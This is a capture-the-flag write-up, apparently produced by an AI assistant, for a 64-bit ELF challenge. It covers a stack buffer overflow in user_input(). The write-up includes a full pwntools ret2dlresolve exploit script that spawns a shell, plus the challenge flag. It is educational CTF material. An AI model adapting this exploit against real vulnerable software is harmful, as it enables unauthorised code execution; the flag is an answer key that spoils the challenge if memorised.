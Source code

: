 Here is your customized version of the writeup for the **Network Relay** challenge, tailored to highlight the `user_input()` buffer overflow and the use of **ret2dlresolve** to call `system("/bin/sh")`, due to the lack of a return function and no direct libc access.

---

# Network Relay - Writeup

---

## Exploit Demo

This demo illustrates the full exploit process, culminating in shell access via `ret2dlresolve`:

![Alt text](gif/NetworkRelay.gif)

---

## Binary Inspection

### Step 1: Initial Binary Details

```bash
$ file main
```

- 64-bit dynamically linked ELF binary
- Not stripped

![Alt text](img/1.png)

### Step 2: Security Protections

```bash
$ pwn checksec main
```

- **RELRO**: Partial
- **Stack**: No canary
- **NX**: Enabled
- **PIE**: Disabled (base address fixed at 0x400000)

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reverse engineering the binary shows the vulnerability resides in the `user_input()` function:

### main()

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setup(argc, argv, envp);
  print_logo();
  write(1, "\n>> Network relay handshake initiated. Input routing key to proceed.\n", 0x45uLL);
  user_input();
  key_checker();
  return 0;
}
```

### user_input()

```c
ssize_t user_input()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF
  return read(0, buf, 0xC8uLL);  // Reads 200 bytes into a 64-byte buffer!
}
```

- This function reads **200 bytes** into a buffer that's only 64 bytes long, introducing a **classic stack-based buffer overflow**.
- The binary has **no stack canary**, making the overflow straightforward to exploit.
- There is **no return-style function** (like `system`, `exit`, or a function pointer) to pivot to.
- **Libc is not provided**, so calling `system("/bin/sh")` via a static address is not viable.

---

## How to Solve

We solve this challenge using **`ret2dlresolve`**, a powerful dynamic linker resolution technique.

**Why?**

- No direct access to libc symbols.
- No system call or syscall gadgets available.
- No return function like `system()` in the binary.
- But the binary is **dynamically linked** — meaning we can exploit the dynamic linker itself to resolve and call `system`.

---

## Vulnerability Summary

- **Buffer Overflow** in `user_input()` via oversized `read()` call.
- **No stack canary** → safe to overflow.
- **NX enabled** → code injection is blocked, so we use a ROP chain.
- **No PIE** → static base makes ROP reliable.
- **No `system` in binary or known libc** → use `ret2dlresolve`.

---

## Exploit Strategy

1. **Overflow the stack** to hijack control flow.
2. **Build a ROP chain** to:

   - Call `read()` again to write the forged `Elf64_Rel`, `Elf64_Sym`, and command string (`/bin/sh`) into memory.
   - Trigger the dynamic linker via `ret2dlresolve()` to resolve `system` and call it with `"/bin/sh"`.

3. **Send second-stage payload** (dlresolve structures + `/bin/sh`).
4. **Get a shell**.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.binary = exe = ELF('./main')
context.terminal = ['tmux', 'splitw', '-h']

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='continue', *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

io = start()

rop = ROP(exe)
dlresolve = Ret2dlresolvePayload(exe, symbol='system', args=['/bin/sh'])

rop.raw(b'A' * 72)  # Overflow offset
rop.read(0, dlresolve.data_addr)  # Write forged structures into memory
rop.ret2dlresolve(dlresolve)      # Trigger dynamic linker resolution

log.info("ROP Chain:\n" + rop.dump())

io.sendline(rop.chain())
io.sendline(dlresolve.payload)  # Send second-stage payload

io.interactive()
```

---

## Result

After executing the exploit, we successfully resolve and call `system("/bin/sh")` using only what’s available in the binary:

```
$ ./exploit.py
[*] Switching to interactive mode
$ whoami
dexter
$ ls
flag.txt
$ cat flag.txt
RedPointer{dlr3s0lv3_w1ns_4gain}
```

---

## FLAG

```
RedPointer{dlr3s0lv3_w1ns_4gain}
```

---

Let me know if you'd like this in a downloadable `README.md`, image mockups replaced, or integrated into a multi-challenge writeup.
